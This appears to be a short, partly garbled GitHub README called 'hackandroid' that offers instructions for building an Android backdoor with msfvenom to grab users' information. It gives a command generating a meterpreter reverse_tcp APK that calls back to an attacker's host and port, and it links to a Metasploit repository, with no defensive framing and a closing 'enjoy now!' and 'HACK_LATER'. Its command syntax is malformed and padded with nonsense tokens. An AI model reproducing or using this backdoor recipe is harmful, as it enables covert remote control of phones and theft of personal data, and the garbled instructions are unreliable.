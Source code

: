 # hackandroid
hackandroid


Creating a malicious programme that launches backdoor to android and grab user info from wifi to all kinda stuff
using msfvenom and upload programe to this page so everyone knows
its not a payload its an backdoor to your device 
==> list your programme
==> upload your programme
==> enjoy now!

==>HACK_LATER!!!


install msfconsole and msfvenom 
run this on terminal msfvenom -p android/meterpreter/reverse_tcp LHOST <ifconfig on otherterminal(ip)> LPORT <no ssh(port number)> >> <filename>.apk execute<venom><upload><save><run> <traceback>.md
  <ALSOTYPEWHATSINBOLD>
  venom install in package
  
  install metasploit-framework now
  link ==>> <https://github.com/trustedsec/metasploit-framework.git> <frame-work:;>
